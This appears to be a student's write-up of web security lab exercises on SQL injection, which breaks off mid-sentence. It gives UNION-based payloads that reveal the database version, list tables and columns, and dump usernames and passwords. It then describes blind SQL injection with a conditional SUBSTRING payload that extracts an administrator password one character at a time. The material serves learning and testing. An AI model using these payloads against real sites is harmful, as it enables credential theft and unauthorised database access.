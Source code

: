 ### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

To solve the lab, display the database version string. 

For this challenge, I use the payload:

`'+union+select+null,@@version#`

### Lab: SQL injection attack, listing the database contents on non-Oracle databases

To solve the lab, log in as the administrator user. 

For this challenge, I use the following payloads:

`'+union+select+null,table_name+from+information_schema.tables--`

`'+union+select+null,column_name+from+information_schema.columns+where+table_name='users_qkxifa'--`

`'+union+select+username_kjdhbe,password_ihczyp+from+users_qkxifa--`

## Blind SQL injection
Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. 
### Exploiting blind SQL injection by triggering conditional responses

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
`Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4`

When a request containing a TrackingId cookie is processed, the application uses a SQL query to determine whether this is a known user:

`SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`

This query is vulnerable to SQL injection, but the results from the query are not returned to the user. However, the application does behave differently depending on whether the query returns any data.

This behavior is enough to be able to exploit the blind SQL injection vulnerability. You can retrieve information by triggering different responses conditionally, depending on an injected condition.

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, start with the following input:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than m.

Next, we send the following input:
